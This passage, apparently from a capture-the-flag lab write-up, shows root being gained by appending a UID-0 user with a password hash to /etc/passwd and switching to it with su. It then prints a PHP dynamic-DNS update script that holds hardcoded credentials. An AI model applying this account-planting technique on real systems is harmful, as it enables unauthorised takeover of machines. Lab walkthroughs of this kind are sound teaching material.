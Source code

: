 The user is now in `/etc/passwd`:

```

bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ tail -1 /etc/passwd
oxdf:$1$KLTiIosS$EcdrRFwOKrCmloQFSZ2zn1:0:0:pwned:/root:/bin/bash

```

Running `su` and entering the password returns a root shell:

```

bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ su - oxdf
Password: 
root@dynstr:~# 

```

## Beyond Root

### no-ip API

The webserver is very simple on this box. There’s a static `index.html` page at the root, with the `assets` directory containing style and images:

```

www-data@dynstr:/var/www/html$ ls
assets  attribution.txt  index.html  nic
www-data@dynstr:/var/www/html$ find nic/ -type f -ls
   285028      0 -rw-r--r--   1 root     root            0 Mar 12 19:41 nic/index.html
   285029      4 -rw-r--r--   1 root     root         1110 Mar 13 19:40 nic/update

```

The `nic` directory has an empty `index.html` and the `update` path. `update` is actually PHP:

```

<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

...[snip]...

```
